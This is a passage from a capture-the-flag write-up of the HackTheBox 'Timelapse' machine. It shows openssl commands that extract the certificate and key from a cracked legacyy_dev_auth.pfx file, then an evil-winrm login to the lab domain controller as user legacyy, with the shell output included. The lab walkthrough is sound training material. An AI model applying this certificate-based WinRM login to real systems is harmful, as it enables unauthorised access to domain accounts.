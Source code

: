 Now, in the cracked `legacyy_dev_auth.pfx`'s filename, it looks like the `legacyy` is a domain username, and `dev` suggests this domain user is in `dev` domain group? Also, the `auth` makes me thinking this certificate is used to do authentication.

Hmm... Since WinRM is up, **maybe domain user `legacyy` is using the certificate to WinRM into the Domain Controller?**

After fumbling around, I found [this blog](https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790), which talks about **WinRM certificate-based authentication**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809164104.png)

That being said, we can **try to WinRM into domain user `legacyy`.**

**However, we need to extract the SSL certificate and private key from the `pfx` file:** (Commands are from [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file))
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:31:06(HKT)]
└> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:31:59(HKT)]
└> openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:32:52(HKT)]
└> openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth_decrypted.key
Enter pass phrase for legacyy_dev_auth.key:
writing RSA key
```

**After that, we can try to use `evil-winrm`, `legacyy_dev_auth.pfx`'s SSL certificate and private key to authenticate as domain user `legacyy`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|16:45:21(HKT)]
└> evil-winrm -S -i $RHOSTS -u legacyy -c legacyy_dev_auth.crt -k legacyy_dev_auth_decrypted.key 
[...]
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami; ipconfig /all
timelapse\legacyy

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc01
   Primary Dns Suffix  . . . . . . . : timelapse.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : timelapse.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-7B-4A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4113:1f9:543d:6321%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.152(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 33574998
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-65-68-F0-00-50-56-B9-7B-4A
   DNS Servers . . . . . . . . . . . : 127.0.0.1
[...]
```